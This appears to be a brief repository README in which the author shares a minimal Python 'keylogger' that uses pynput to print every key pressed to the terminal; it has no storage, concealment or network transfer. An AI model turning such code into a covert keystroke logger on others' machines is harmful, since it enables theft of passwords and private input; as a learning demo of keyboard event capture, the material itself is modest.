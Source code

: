 # keylogger

it is an mini keylogger which prints all key strokes typed in our terminal(iam using in kali)

iam attaching the python file and code here;)



<code starts here>


import pynput.keyboard


def callback_function(key):
    print(key)

keylogger_listener = pynput.keyboard.Listener(on_press=callback_function)
with keylogger_listener:
    keylogger_listener.join()
    
    
    <varta mamey;)>
